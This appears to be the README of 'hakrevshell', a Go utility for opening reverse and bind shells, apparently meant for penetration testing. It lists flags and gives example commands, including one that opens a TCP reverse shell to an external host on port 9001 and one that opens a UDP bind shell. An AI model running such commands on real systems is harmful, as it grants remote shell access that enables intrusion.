 # hakrevshell
A golang reverse shell utility

## Usage

- `-h`: Host and port to connect to
- `--udp`: Use UDP instead of the default TCP
- `--bind`: Create a bind shell instead of the default reverse shell

## Example Usage

Create a UDP bind shell on port 1337

```
hakrevshell -h 192.168.0.44:1337 --udp --bind
```

Create a TCP reverse shell to port 9001 on external host (192.168.0.45)

```
hakrevshell -h 192.168.0.45:9001
```
